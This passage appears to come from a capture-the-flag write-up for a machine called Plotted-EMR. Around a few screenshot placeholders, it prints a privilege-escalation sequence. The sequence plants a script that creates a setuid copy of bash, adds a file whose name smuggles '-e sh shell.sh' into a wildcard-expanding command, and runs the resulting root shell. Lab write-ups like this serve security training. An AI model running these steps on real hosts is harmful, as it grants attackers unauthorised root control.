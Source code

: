 <img src="Plotted-EMR/media/image22.png"
style="width:6.3in;height:3.08333in" />

cd /var/www/html/portal/config

echo “cp /bin/bash /home/plot_admin/ shell; chmod +s
/home/plot_admin/shell” \> shell.sh

touch — “-e sh shell.sh”

cd /home/plot_admin/

./shell -p

<img src="Plotted-EMR/media/image23.png"
style="width:5.70833in;height:0.38333in" />

<img src="Plotted-EMR/media/image24.png"
style="width:5.75833in;height:1.675in" />

<img src="Plotted-EMR/media/image25.png"
style="width:5.70833in;height:1.09167in" />
